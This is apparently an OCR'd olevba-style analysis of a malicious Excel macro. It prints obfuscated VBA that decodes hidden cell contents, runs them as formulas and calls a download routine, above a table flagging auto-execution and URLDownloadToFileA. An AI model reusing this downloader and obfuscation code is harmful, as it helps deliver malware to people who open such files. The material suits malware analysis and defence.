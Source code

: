 ```VB



Function sb_t()
sb_t = hokkkk(4, 4) & hokkkk(3, 55)
End Function

Function hokkkk(s, j As Integer)
If j > 5 Then jj = 1 Else jj = -1
For Each u In Sheets(s).UsedRange.SpecialCells(xlCellTypeConstants): m = u: Next
v1 = Split(StrConv(m, 64), Chr(0)): For Each vv1 In v1: On Error Resume Next: k = k & Chr(Asc(vv1) + jj): Next: hokkkk = k
End Function
Function ellysio()
ellysio = 5 - 3
End Function
Function redline(yel As Integer)
redline = "$"
If yel = 2 Then redline = "]"
End Function
Function mi_1(Optional wq As Integer) As Integer
Dim O As Integer: Dim Oa As Integer: ol = 1
Sheets(ol).Cells(ellysio, ol).Name = oo2 & "mo":
govs = sb_t
Oa = 9: kij = Split(govs, "="): Ada = Split(kij(ol), redline(ellysio))
aa = 2

For u = 1 To UBound(Ada) - LBound(Ada) + 1
On Error Resume Next
Sheets(ol).Cells(aa, ol).value = "=" & Ada(u)
Run (oo2 & "mo")
If u = 13 Then directoo = gogog
If u = 15 Then
fillename = gogog
P_Click_Box 0, homedep(Split(kij(0), redline(Oa))), directoo & "\" & fillename, 0, 0
End If
Next
Sheets(ol).Range("A1:B5").Clear
End Function
Function oo2()
oo2 = "forsS_"
End Function
Function homedep(nimo As Variant) As String
Randomize: df = 2 - 1: homedep = nimo(Int((UBound(nimo) + df) * Rnd))
End Function

Function gogog()
gogog = Sheets(1).Range("B1:B5").SpecialCells(xlCellTypeConstants)
End Function



+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |vbox1_cli_Layout    |Runs when the file is opened and ActiveX     |
|          |                    |objects trigger events                       |
|Suspicious|Run                 |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|Lib                 |May run code from a DLL                      |
|Suspicious|URLDownloadToFileA  |May download files from the Internet         |
|Suspicious|Chr                 |May attempt to obfuscate specific strings    |
|          |                    |(use option --deobf to deobfuscate)          |
```
